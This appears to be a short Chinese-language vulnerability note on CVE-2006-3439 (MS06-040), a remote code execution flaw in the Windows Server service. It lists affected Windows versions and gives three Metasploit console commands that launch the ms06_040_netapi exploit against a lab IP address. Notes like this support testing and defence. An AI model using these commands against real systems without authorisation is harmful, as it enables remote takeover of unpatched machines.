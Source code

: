 ###  CVE-2006-3439

#### 描述

服务器服务中的缓冲区溢出允许包括匿名用户在内的远程攻击者通过精心制作的RPC消息执行任意代码

#### 影响版本

| Product              | CPU Architecture | Version | Update | Tested             |
| -------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 2000         |                  |         | SP4    | &#10004; |
| Windows  Server 2003 |                  | R2      |        |                    |
| Windows  Server 2003 |                  |         | SP1    |                    |
| Windows  Server 2003 |                  |         | SP1    |                    |
| Windows  Server 2003 |                  |         |        |                    |
| Windows  Server 2003 |                  |         |        |                    |
| Windows Xp           |                  |         | SP1    |                    |
| Windows Xp           |                  |         | SP2    |                    |

#### 利用方式

msf 利用 测试系统Windows Server 2000 SP4 x86

```
use exploit/windows/smb/ms06_040_netapi
set RHOST 192.168.1.17
run
```

